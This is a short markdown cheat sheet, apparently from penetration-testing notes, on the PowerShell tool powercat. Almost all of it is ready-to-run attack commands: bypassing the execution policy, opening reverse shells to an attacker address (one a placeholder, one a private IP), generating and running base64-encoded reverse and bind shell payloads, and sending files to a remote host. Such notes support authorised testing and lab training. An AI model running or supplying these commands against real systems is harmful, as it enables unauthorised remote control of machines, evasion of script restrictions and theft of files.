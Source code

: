 # Powercat

Load powercat

```powershell
Set-ExecutionPolicy Bypass
. .\powercat.ps1
```

Reverse shell

```powershell
powercat -c <attack system> -p 8044 -e cmd.exe
```

Encoded Reverse shell

```powershell
powercat -c 192.168.119.213 -p 8044 -e cmd.exe -ge > reverse.ps1
powershell -E (Get-Content 'reverse.ps1' -Raw)   				# Execute reverse shell
```

Bind shell

```powershell
powercat -l -p 443 -e cmd.exe
```

Encoded Bind shell

```powershell
powercat -l -p 443 -e cmd.exe -ge > bind.ps1
powershell -E (Get-Content 'bind.ps1' -Raw)
```

Sending files

```powershell
powercat -c <remote ip> -p 443 -i C:\<path>\<filename>
```

